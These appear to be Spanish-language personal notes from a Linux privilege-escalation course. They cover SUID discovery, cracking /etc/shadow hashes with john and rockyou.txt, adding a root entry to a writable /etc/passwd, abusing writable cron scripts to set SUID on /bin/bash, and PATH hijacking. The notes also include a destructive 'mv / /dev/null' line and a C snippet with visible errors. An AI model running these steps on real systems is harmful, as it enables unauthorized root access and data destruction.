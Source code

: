 # video 8

//saber quien soy
whoami

//saber algo del sistema
uname -a
lsb_realease -a

//como root asignar el permiso suid a find
chmod 4755 /usr/bin/find

//cambiamos de usuario
su pepitoe
//buscamos ficheros con esos permisos
find / \-perm 4000 2>/dev/null

//cosas turbias 
mv / /dev/null

//buscar por fichero donde podamos escribir

find /etc/ \-writable 


## Algoritmos de encriptación
cat /etc/login.defs | grep "ENCRYPT_METHOD"

cat /etc/shadow | grep pepito



https://sniferl4bs.com/2020/02/adios-rockyou.txt-bienvenido-kaonashi.txt/

https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjNt9jQ3-D7AhXmzIUKHXtGBwUQFnoECAoQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd

aqui podemos bajar el fichero rockyou.txt con todas contraseñas

para nuestra prueba usamos "pepito" 

cat rockyou.txt | grep "^pepito$"

//para saber la linea

cat rockyou.txt | grep "^pepito$" -n



si podemos hacernos con un hash $6$ -> sha512

cat /etc/shadow | grep usuario -> hash

Con john:

john --wordlists=/usr/share/wordlists/rockyou.txt hash

Si concuerda el algoritmo de encriptacion que es compatibles con john, empezara a comparar el hash con los que va generar john mediante la lista de constraseñas usuales.


Otra cosas que debemos de tener muy encuenta son los permisos que debemos darle a nuestro ficheros

Una mala configuracion  nos la cuelan.

desde un usuario "pepito" , si tengo permisos de escritura en /etc/passwd

find /etc/ \-writable 2>/dev/null

-> /etc/passwd

openssl passwd -> crear contraseña

hash-identifier -> identificar tipo de cifrado
hashid -> 

con capacidad de escritura 

nano /etc/passwd

root:x:0:0:root:/root:/bin/bash
root:hash-generado-openssl:0:0:root:/root:/bin/bash

su root -> entramos con el usuario root y comprobará el hash
con el que hay en el fichero /etc/passwd no /etc/shadow



# video 9 Explotación de tareas cron
cd /etc/cron.d

service cron status

//antes de iniciarlo creamos una tareas cron

nano tarea

//cada minuto se esta ejecutando esta tarea
* * * * * root /home/s4vitar/Desktop/file.sh

cd /home/s4vitar/Desktop/file.sh

nano file.sh

sleep 10
#borra todo los ficheros temporales
rm -r /tmp/*


//ahora partiendo de una usuario no privilegios -> convertirnos en root


service cron status

chmod o+wx file.sh




# video 10 detección de tareas cron a traves de un script

comprobamos nuestros privilegios/permisos en linux

whoami
id
sudo su
uname -a
lsb_realease -a

//no iriamos a ficheros con suid, que tengan capacidad de escritura por parte de mi usuario

el objetivo es crear un programa en bash para ver las tareas que
se estan ejecutando en tiempo real

touch procmon.sh
chmod +x !$ -> permisos de ejecucion
nano !$


//concepto
touch {file1, file2}
nano file1 -> hola\n que\n tal\n
nano file2 -> adios\n que\n tal\n
diff file1 file2


con la ayuda del comando ps -eo command
#!/bin/bash -> cabeceras

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    # [] cualquier caracter que este en los corchete
    # "key" cualquier linea que contenga -> con la opcion -v las elimina
    diff  <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -v "kworker"
    old_process=$new_process
done

al ejecutarlo, podemos ver los precesos cron que se están ejecutando, aunque sea el root el que lo haga

Posteriormente si identificamos un proceso podemos ir a la ruta de donde se encuentra el fichero
y si los permisos no estan bien configurados, podemos modificar ese script y por ejemplo

chmod 4755 /bin/bash -> ponernos un permiso suid en la shell


//Con watch podemos ver los cambios que se realizan en un fichero por ejemplo cada x segundos
watch -d -n 1 ls -l /bin/bash


Cuando /bin/bash se le haya aplicado el permiso suid ya podriamos lanzar una  shell

bash
bash -p -> activando el flag suid


# explotacion de un path hijacking frente a un binario suid

touch backup.sh

//ruta relativa
cat /etc/hosts
//ruta absoluta
which cat
//ver el tipo de un fichero
file /bin/cat
/bin/cat /etc/hosts



#include <stdio.h>
void main(){

    setuid(0)
    //por ruta absoluta
    print(\n[*] Listando procesos (/usr/bin/ps):\n\n);
    system("/usr/bin/ps");

    print(\n[*] Listando procesos (ps):\n\n);
    system("ps");


}

Compilamos
gcc backup.sh -o backup

si le damos permisos de ejecucion

chmod 4755 backup

Con esto podria ejecutarlo otro usuario con el contexto que de que podemos
ejecutar el fichero desde otros, pero nada más, ya que no tenemos permisos de escritura y no podriamos sobreescribir el fichero, además que es un ejecutable.



# video 12 explotación de un path hijacking a un binario uid

Consiste en tomar el orden de prioridad y modificarla. De esta manera podemos
hacer que se ejecute x instrucción antes por que al modificar el orden de prioridad, ejecute una que hayamos puesto al principio de todo.

echo $PATH

prueba de concepto

touch whoami

chmod u+x whoami

ponemos en el fichero simplemente "ps" y guardamos

modificando PATH

export PATH=.:$PATH

al ejecutar ./whoami

ejecutará el proceso ps

//listar las cadenas de caracteres imprimibles  en un binario

string p




la idea es la misma pero ahora modificando nuestro fichero en c

creamos un fichero en touch /tmp/ps

escrimos en el "bash -p" para aprovecharnos del suid

export PATH=/tmp:$PATH








